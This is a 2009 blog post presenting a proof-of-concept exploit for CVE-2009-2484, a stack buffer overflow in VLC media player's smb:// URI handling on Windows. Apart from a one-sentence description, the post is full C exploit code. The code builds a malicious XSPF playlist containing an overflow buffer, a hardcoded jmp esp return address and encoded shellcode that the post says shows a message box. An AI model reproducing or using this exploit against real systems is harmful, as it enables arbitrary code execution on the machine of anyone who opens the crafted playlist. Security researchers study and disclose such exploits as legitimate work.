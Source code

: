```yaml
---
author: pank4j
comments: true
date: 2009-08-07 00:15:46+00:00
layout: post
slug: vlc-media-player-smb-uri-handling-remote-buffer-overflow-vulnerability-exploit
title: VLC Media Player 'smb://' URI Handling Remote Buffer Overflow Vulnerability
  Exploit
wordpress_id: 81
categories:
- Archive
tags:
- CVE-2009-2484
- exploits
---
```


A stack-based buffer overflow exists in the `Win32AddConnection` function in `modules/access/smb.c` in VideoLAN VLC media player 0.9.9, when running on Microsoft Windows, that allows remote attackers to execute arbitrary code via a long smb URI in a playlist file.

{% highlight c %}
/* VLC Media Player 'smb://' URI Handling Remote Buffer Overflow Vulnerability Exploit
* Reference: http://www.securityfocus.com/bid/35500
*
* Tested on VLC media player 0.8.6f on WinXP SP3
*
* Coded by Pankaj Kohli
* http://www.codepwn.com
*
*/

#include <stdio.h>
#include <string.h>

// ASCII shellcode (Display a message box & exit)
unsigned char shell[] = "TY777777777777777777777777777777777QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJIXkweaHrJwpf02pQzePMhyzWwSuQnioXPOHuBxKnaQlkOjpJHIvKOYokObPPwRN1uqt5PA";

long jmp = 0x7E485233; // jmp esp (user32.dll)

int main(int argc, char **argv) {
    char buff[512], *p;
    FILE *fp;
    int i;
    long *ptr;

    fp = fopen("sploit.xspf", "wb");
    fprintf(fp, "<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n");
    fprintf(fp, "<playlist version=\"1\" xmlns=\"http://xspf.org/ns/0/\" xmlns:vlc=\"http://www.videolan.org/vlc/playlist/ns/0/\">\n");
    fprintf(fp, "\t<title>Playlist</title>\n");
    fprintf(fp, "\t<trackList>\n");
    fprintf(fp, "\t\t<track>\n");
    fprintf(fp, "\t\t\t<location>smb://example.com@www.example.com/foo/#{");

    printf("[*] Creating buffer\n");
    for(i=0; i<300; i++) {
        buff[i] = 'a' + ((i/4)%26);
    }
    ptr = (long *) (buff + 96);
    *ptr = jmp;
    for(i=0; i<strlen((const char *) shell); i++) {
        buff[i+100] = shell[i];
    }
    buff[300] = 0;
    fprintf(fp, "%s", buff);

    fprintf(fp, "}</location>\n");
    fprintf(fp, "\t\t\t<extension application=\"http://www.videolan.org/vlc/playlist/0\">\n");
    fprintf(fp, "\t\t\t\t<vlc:id>0</vlc:id>\n");
    fprintf(fp, "\t\t\t</extension>\n");
    fprintf(fp, "\t\t</track>\n");
    fprintf(fp, "\t</trackList>\n");
    fprintf(fp, "</playlist>\n");
    fclose(fp);

    printf("[*] Exploit file written to sploit.xspf\n");

    return 0;
}
{% endhighlight %}

